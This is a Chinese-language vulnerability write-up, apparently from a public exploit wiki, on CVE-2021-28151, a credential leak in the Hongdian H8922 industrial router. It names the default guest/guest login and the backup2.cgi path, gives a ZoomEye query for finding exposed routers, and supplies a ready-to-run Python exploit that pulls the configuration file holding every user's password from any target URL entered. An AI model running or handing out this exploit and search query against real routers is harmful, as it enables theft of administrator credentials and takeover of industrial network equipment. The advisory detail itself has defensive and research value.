

# 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151

## 漏洞描述

宏电 H8922 后台存在管理员信息泄露漏洞，攻击者使用任意账号登录后访问特殊的Url即可获取所有用户的账号和密码

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 backup2.cgi 文件中


分析后可得知实际运行后将会读取 **/tmp/hdconfig/cli.conf** 配置文件


其中配置文件中是含有所有用户密码以及敏感配置信息的

## 漏洞POC

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台管理员信息泄露漏洞 CVE-2021-28151                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/backup2.cgi"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/backup2.cgi.... \033[0m".format(target_url))
        if 'service webadmin' in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取配置文件 \033[0m".format(target_url))
            print("\033[36m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

